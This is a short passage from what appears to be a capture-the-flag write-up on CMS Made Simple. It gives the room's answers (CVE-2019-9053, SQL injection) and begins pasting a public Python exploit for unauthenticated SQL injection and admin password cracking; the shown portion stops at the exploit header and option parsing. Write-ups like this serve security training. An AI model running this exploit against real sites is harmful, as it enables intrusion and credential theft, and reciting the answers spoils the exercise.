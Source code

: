 ```
ANS: CVE-2019-9053
```

### To what kind of vulnerability is the application vulnerable?

<figure><img src="../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

```
ANS: sqli
```

### What's the password?

#### Exploitation

```python
#Update Code to python3 Thanks for someone who fix this I forget where I got it.
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)
```